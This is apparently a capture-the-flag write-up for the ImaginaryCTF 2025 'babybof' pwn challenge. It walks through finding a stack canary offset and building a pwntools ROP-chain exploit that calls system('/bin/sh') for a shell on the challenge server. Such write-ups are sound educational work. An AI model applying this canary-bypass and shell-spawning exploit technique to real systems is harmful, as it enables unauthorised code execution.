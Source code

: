 +++
title = 'ImaginaryCTF 2025 Pwn Writeup: babybof'
description = 'Complete Writeup for ImaginaryCTF 2025 Pwn Challenge babybof'
date = 2025-09-08
author = 'Shruti Priya'
+++

**Author: Shruti Priya**

Hello and welcome to the writeup for [ImaginaryCTF 2025 Pwn Challenge babybof](https://2025.imaginaryctf.org/Challenges). This is a beginner level pwn challenge and involves the use of ROP Chain to achieve a shell.

## Understanding the Binary

Before disassembling the binary, let's run it locally and get a feel of how it works.

```bash
$ ./vuln
Welcome to babybof!
Here is some helpful info:
system @ 0x7c7f53458750
pop rdi; ret @ 0x4011ba
ret @ 0x4011bb
"/bin/sh" @ 0x404038
canary: 0x8fb67032276b7f00
enter your input (make sure your stack is aligned!): 
```

The binary gives us "some helpful info" such as: the memory address of the `system` function, `ret` and `pop rdi; ret` gadgets and where is the string `/bin/sh` is present in memory. Moreover, there is also a `stack canary` which checks if the stack is being smashed. This is a classic buffer overflow challenge where we have to ensure the `canary` does not detect our payload. I first generate some cyclic pattern to figure out the offset of the `canary` from the input. For generating the cycling pattern and checking offset, I use the Python library `msfpatterns`.

## Finding offset

```python
from msfpatterns import generate_pattern
generate_pattern(128)
'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae' 
```

Inserting this pattern into the binary:

```bash
$ ./vuln
Welcome to babybof!
Here is some helpful info:
system @ 0x7a53ee858750
pop rdi; ret @ 0x4011ba
ret @ 0x4011bb
"/bin/sh" @ 0x404038
canary: 0xe54015725bff3800
enter your input (make sure your stack is aligned!):  Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
your input: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
canary: 0x4130634139624138
return address: 0x6341356341346341
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

We overflowed the buffer and the `canary` detected stack smashing. Now, based on the memory addresses (which is just our cyclic pattern) detected by the `canary` and the `return address`, we can figure out the offset.

```python
from msfpatterns import find_offset
find_offset('0x4130634139624138', 128)      # canary address
[56]
find_offset('0x6341356341346341', 128)      # return address
[72]
```

The `canary` is at the offset of 56 bytes while the return address is at the offset of 72 bytes. Now, let's check if we have found the correct offset. Also note how the memory address for `canary` and `system` changed on another invocation of the binary. This means that these two addresses will keep changing and we should develop a payload based on this information.

```python
from pwn import *

def print_lines(io):
    info("Printing io received lines")
    while True:
        try:
            line = io.recvline()
            success(linbinarye)
        except EOFError:
            break

context(os='linux', arch='amd64', log_level='info')
p = process("./vuln")

offset = 56
canary = int(p.recvline_startswith(b'canary: ').split(b"0x", 2)[1].strip().decode(), 16)

payload = [
    b'A'*offset,
    p64(canary)
]

p.sendlineafter(b'aligned!): ', b''.join(payload))
print_lines(p)
```

Let's run this exploit.

```bash
$ python exploit.py
[+] Starting local process './vuln': pid 26176
canary: 0x3877f79e78920100
[*] Printing io received lines
[*] Process './vuln' stopped with exit code 0 (pid 26176)
[+] your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[+] canary: 0x3877f79e78920100
[+] return address: 0x7049cf62a1ca
```

Wonderful! Our offset is correct and we have successfully overwritten the actual `canary` with a new `canary` value (this new value is just the old value but it protects our program from crashing since the `canary` is preserved). Armed with this knowledge, let's start building our final exploit.

## Crafting final exploit

First, we have to send 56 bytes to reach the offset, then we add the `canary` value to preserve the `canary` and prevent the program from exiting due to stack smashing. Finally, we need to add the actual payload which will execute the `/bin/sh` function and drop us into a shell. 

Before crafting the final payload, I should explain one more thing. We cannot send our payload right after the `canary` value since there must be a saved base pointer right after the `canary`. Our payload must begin _after_ this base pointer to actually overwrite the return address and give us control of the program flow. Great, now let's craft the exploit.

```python
from pwn import *

context(os='linux', arch='amd64', log_level='info')

#host = 'babybof.chal.imaginaryctf.org' 
#port = 1337

#p = remote(host, port)
p = process("./vuln")

offset = 56

system_addr = int(p.recvline_startswith(b'system @ ').split(b"0x", 2)[1].strip().decode(), 16)
canary = int(p.recvline_startswith(b'canary: ').split(b"0x", 2)[1].strip().decode(), 16)
ret = 0x4011bb
pop_rdi_ret = 0x4011ba
binsh = 0x404038

rop_chain = [
    p64(ret),              # Align stack
    p64(pop_rdi_ret),      # Pop /bin/sh address into rdi
    p64(binsh),            # Address of /bin/sh
    p64(system_addr)       # Call system(/bin/sh)
]

payload = [
    b'A'*56,
    p64(canary),
    b'B' * 8,
    *rop_chain
]

p.sendlineafter(b'aligned!): ', b''.join(payload))
p.interactive()
```

Here, we have the `b'A' * 56` for the initial 56 bytes, then we have the `canary`, then we insert random 8 bytes to get rid of base pointer. Finally, we have the `rop_chain`. This `rop_chain` calls the `system` function with the argument `/bin/sh` to give us a shell. Let's run this locally for testing.

```bash
$ python exploit.py
[+] Starting local process './vuln': pid 30753
[*] Switching to interactive mode
your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
canary: 0x345834f8e687e300
return address: 0x4011bb
$ whoami
shru
$  
```

And we have the shell! Now let's run this exploit on the server and get our flag.

```bash
$ python exploit.py
[ ] Opening connection to babybof.chal.imaginaryctf.org on port 1337: Done
[*] Switching to interactive mode
your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
canary: 0xfbabb22136e95f00
return address: 0x4011bb
$ whoami
ubuntu
$ cat flag.txt
ictf{*****_**********_*******_***_*****_******_***_*******}
$ 
```

And `babybof` is pwned. This was a fun challenge and I learnt how to craft ROP Chains with pwntools. Thank you for reading and I will see you in the next writeup.